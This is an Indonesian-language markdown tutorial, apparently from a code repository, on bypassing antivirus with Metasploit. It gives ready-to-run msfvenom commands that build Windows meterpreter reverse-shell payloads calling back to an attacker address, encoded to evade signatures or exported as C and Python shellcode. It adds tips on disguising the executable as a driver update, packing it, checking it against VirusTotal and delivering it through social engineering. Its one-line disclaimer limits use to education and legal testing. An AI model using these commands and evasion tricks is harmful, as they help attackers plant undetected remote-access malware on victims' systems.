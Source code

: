 # Bypass Antivirus (AV) dengan Metasploit Framework

## A. Kenapa Perlu Bypass AV?

Saat payload buatan Metasploit dieksekusi di sistem target, antivirus modern bisa langsung mendeteksi dan memblokirnya. Oleh karena itu, bypass AV menjadi langkah penting agar payload dapat berjalan tanpa terdeteksi.

## B. Teknik Umum Bypass AV

| Teknik | Deskripsi |
|:--:|:-:|
| Encoding Payload | Mengacak struktur payload agar tidak dikenali signature AV |
| `Packing` / `Obfuscation` | Membungkus file dengan enkripsi atau modifikasi struktur file | 
| Custom Payload Wrapper | Menulis skrip sendiri dalam `Python`/`C`/`VB` yang menjalankan `shellcode` |
| Menghindari Signature Payload | Tidak menggunakan payload default bawaan Metasploit |

## C. Bypass AV dengan Encoder Metasploit Framework

Gunakan encoder saat membuat payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o shell_encoded.exe
```

**Keterangan:**

- `-e`: Encoder (contoh: `x86/shikata_ga_nai`)
- `-i`: Iterasi encoder (semakin banyak, semakin acak tapi bisa tidak stabil)

**Encoder Populer di Metasploit:**

- `x86/shikata_ga_nai`
- `cmd/powershell_base64`
- `x86/countdown`
- `x86/jmp_call_additive`

Cek semua encoder:

```
msfvenom --list encoders
```

## D. Membungkus Payload dalam Bahasa Pemrograman Lain

### 1. Format C

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c > payload.c
```

Compile secara manual dan modifikasi kode untuk menyisipkan ke aplikasi.

### 2. Format Python:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f python > payload.py
```

Bisa dikonversi ke `.exe` dengan `pyinstaller`, dan payload dapat disamarkan.

## E. Catatan Penting

- Teknik bypass AV tidak menjamin selalu berhasil.
- AV signature terus diperbarui -> butuh improvisasi dan eksperimen.
- Gunakan hanya untuk tujuan edukasi dan pengujian legal.

## Tips Tambahan

| Tips | Penjelasan |
|:--:|:-:|
| Ganti nama file | Gunakan nama umum seperti driverupdate.exe |
| Obfuscate | Gunakan tool seperti `UPX`, `PyArmor`, `dll` |
| Test | Gunakan VirusTotal untuk uji deteksi |
| Ganti payload | Hindari payload yang umum seperti `meterpreter/reverse_tcp` |
| Social Engineering | Gabungkan dengan file asli atau teknik persuasi |


